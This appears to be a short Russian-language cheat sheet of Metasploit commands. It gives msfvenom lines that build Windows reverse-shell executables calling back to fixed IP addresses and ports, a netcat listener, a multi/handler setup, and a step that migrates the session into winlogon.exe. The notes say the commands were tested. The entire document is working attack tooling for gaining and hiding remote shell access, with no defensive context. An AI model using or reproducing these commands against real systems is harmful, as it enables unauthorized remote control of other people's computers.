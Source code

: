 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run
